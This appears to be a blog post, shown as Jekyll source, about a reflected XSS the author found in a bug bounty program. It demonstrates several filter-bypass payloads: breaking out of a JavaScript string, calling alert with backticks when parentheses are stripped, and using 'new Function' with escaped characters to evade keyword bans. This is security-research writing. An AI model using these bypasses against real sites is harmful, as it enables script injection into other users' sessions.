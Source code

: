 ```yaml
---
layout: post
title: An XSS Story
---
```


Last night I stumbled across an XSS in a bug bounty program, this was quite fun to exploit.
A little bit of context, the URL was as follows:

{% highlight bash%}
https://bugbounty.program/dir/page.ext?param1=SOMETHING&param2=SOMETHINGELSE
{% endhighlight %}

Going thru the page code we can clearly see a reflection in a javascript tag, around the entry "subject".

{% highlight javascript%}
xxx: {
    paramX: "SOMESTRING",
    country: "US",
    owner: "mail@program",
    subject: "SOMETHING",
    [...]
}
{% endhighlight %}

Let's try with my favorite test payload `AAAA"<i>'BBBB(1)` and see how the characters are escaped.

{% highlight javascript%}
xxx: {
    paramX: "SOMESTRING",
    country: "US",
    owner: "mail@program",
    subject: "AAAA" 'BBBB",
    [...]
}
{% endhighlight %}

The tag was stripped but the double quote isn't escaped. We can say goodbye to the infamous `</script><script>alert(1)` payload. Let's try to bypass the filter with a little bit of Javascript magic :D

In JS if we have a string we can try to add a function and it will be executed, a simple alert(1) should do the work. Our payload is now `AAAA"+alert(1)+"BBBB`

{% highlight bash%}
xxx: {
    paramX: "SOMESTRING",
    country: "US",
    owner: "mail@program",
    subject: "AAAA"+alert1+"BBBB",
    [...]
}
{% endhighlight %}

Damn, it seems that our parenthesis were removed, let's try with an alternative way to trigger an alert using the backticks : `AAAA"+alert\`1\`+"BBBB`, this trick works on Firefox and Chrome/Opera in their latest version.

{% highlight bash%}
xxx: {
    paramX: "SOMESTRING",
    country: "US",
    owner: "mail@program",
    subject: "AAAA"+alert`1`+"BBBB",
    [...]
}
{% endhighlight %}

Yay our alert(1) popped :D, let's now imagine more protections, only to do some JS magic.
We can try to `eval()` our `alert()` using the backticks and some escape characters.
What if eval and alert are banned keywords ?
We can still use the `New Function` !

{% highlight javascript%}
xxx: {
    paramX: "SOMESTRING",
    country: "US",
    owner: "mail@program",
    subject: "AAAA"+new Function`al\ert\`XSS\``+"BBBB",
    [...]
}
{% endhighlight %}

In Javascript we can escape any character and they will be treated as the original character if it doesn't exist.

{% highlight javacript%}
\a = a
\e = e
\l = l
\r = \r because it's a new line
\t = \t because it's a tab
{% endhighlight %}

That's all folks !